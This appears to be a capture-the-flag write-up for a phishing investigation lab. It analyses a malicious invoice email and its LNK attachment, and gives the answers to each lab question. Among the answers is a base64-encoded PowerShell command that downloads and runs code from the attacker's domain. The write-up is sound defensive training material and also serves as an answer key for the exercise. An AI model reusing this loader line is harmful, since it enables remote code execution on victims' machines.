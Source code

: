 # Task 2: Email Analysis

## Scenario: The Boogeyman is Here!

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from other finance department employees. This indicates a highly targeted attack on the finance team. Upon checking the latest threat intelligence, the initial Tactics, Techniques, and Procedures (TTPs) used for the malicious attachment are attributed to a new threat group named **Boogeyman**, known specifically for targeting the logistics sector.

**Your task:** Analyze and assess the impact of this compromise, starting with the initial access vector.

---

## Investigation Guide: Analyzing `dump.eml`

Given the initial information, we know that the compromise started with a phishing email. Our first step is to analyze the `dump.eml` file, which is located in the `/home/ubuntu/Desktop/artefacts` directory within the provided VM.

There are two primary ways to analyze the email headers and rebuild the attached payload:

### Method 1: Manual Analysis (Command-Line Tools)

This method involves using basic command-line tools available in the VM to extract and decode information directly from the `.eml` file.

* **Tools:** `cat`, `grep`, `base64`, `sed`.
* **Process:** Manually analyze the contents of `dump.eml`. The encoded payload (often base64) is typically located at the bottom of the file. You will need to extract this string and decode it.

    ```bash
    # Sample command to rebuild the payload, presuming the encoded payload is written in another file, without all line terminators
    # Example: cat <PAYLOAD_FILE> | base64 -d > Invoice.zip
    ```

### Method 2: Using Thunderbird (GUI)

This is often the simpler and more intuitive method for initial email review.

* **Tool:** Thunderbird (pre-installed in the VM).
* **Process:** Double-click the `dump.eml` file to open it directly via Thunderbird. The email's content, headers, and attachments will be presented in a user-friendly interface. The attachment can then be easily saved and extracted.

### Extracting Payload Information with `LNKParse3`

Once the payload from the encrypted archive is extracted (which often results in a `.LNK` file), you will use the `lnkparse` tool to extract detailed information about it.

* **Tool:** `lnkparse`
* **Command Example:**

    ```bash
    ubuntu@tryhackme:~ $ lnkparse <LNK_FILE>
    ```

---

## Questions and Analysis

Please provide your findings and explanations for the following questions:

### 1. What is the email address used to send the phishing email?

The email address can be found by accessing the `dump.eml` file w/ Thunderbird, as shown in the image below.

![2025-06-17T15_37_20](https://github.com/user-attachments/assets/c7b5ba93-4af1-4df1-a3e7-39467c7a1823)

We see that the answer is: agriffin@bpakcaging.xyz

This image can also be used to answer questions 2 & 5.

---

### 2. What is the email address of the victim?

If we check the recipient of the email, we find that the answer is: julianne.westcott@hotmail.com

### 3. What is the name of the third-party mail relay service used by the attacker based on the `DKIM-Signature` and `List-Unsubscribe` headers?

To find this information with Thunderbird, we need to view the source and find the appropriate headers. 

![2025-06-17T15_37_24](https://github.com/user-attachments/assets/c31842ff-77f6-4119-bea3-e11771387754)

Once we do so, we find that the third-party mail relay service is: elasticemail

---

### 4. What is the name of the file inside the encrypted attachment?

To find this information, I downloaded the encrypted attachment to the artefacts directory and used the password provided in `dump.eml` to extract the file. 

![image](https://github.com/user-attachments/assets/2788c98c-a595-43a0-8905-f2d7895dc68b)

Once finished, we see that the name of the file is: Invoice_20230103.lnk

---

### 5. What is the password of the encrypted attachment?

As previously mentioned, we can find this information in the `dump.eml` file using Thunderbird. 

The answer is: Invoice2023!

---

### 6. Based on the result of the `lnkparse` tool, what is the encoded payload found in the `Command Line Arguments` field?

To find this information, we need to open up the terminal. From there we type the command, lnkparse <file_lnk>, as shown in the image below.

![image](https://github.com/user-attachments/assets/8d25a237-a0a3-40c3-9a98-3da95f44edd7)

Once we execute the command, we can find the answer in the output, as shown in the image below.

![image](https://github.com/user-attachments/assets/36778e16-0495-4127-977a-1911b3338083)

The answer is: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==





---
